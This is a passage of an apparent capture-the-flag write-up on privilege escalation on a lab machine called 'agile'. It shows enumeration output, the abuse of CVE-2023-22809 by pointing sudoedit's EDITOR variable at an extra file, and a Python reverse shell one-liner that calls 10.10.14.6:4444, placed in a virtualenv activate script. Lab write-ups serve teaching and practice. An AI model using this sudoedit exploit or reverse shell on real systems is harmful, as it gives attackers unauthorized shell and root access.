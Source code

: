 ```
edwards@agile:~$ id
uid=1002(edwards) gid=1002(edwards) groups=1002(edwards)
```
```
edwards@agile:~$ sudo -l

[...]

User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json
    (dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt 
```

By checking CVE-2023-22809 and files owned by `dev_admin` group...

```
edwards@agile:~$ find / -group dev_admin 2>/dev/null
/home/dev_admin
/app/venv
/app/venv/bin
/app/venv/bin/activate
/app/venv/bin/Activate.ps1
/app/venv/bin/activate.fish
/app/venv/bin/activate.csh
```
... we can confirm that dev_admin group owns /app/venv/activate file.

Therefore, by using these commands, we can also editing `/app/venv/bin/activate` by modifying `/app/config_test.json`

```
export EDITOR="nano -- /app/venv/bin/activate"
sudo -u dev_admin sudoedit /app/config_test.json
```

We can inject a reverse shell payload like following at the beginning of ```/app/venv/bin/activate```:

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```
And...

![](/assets/agile/root.png)


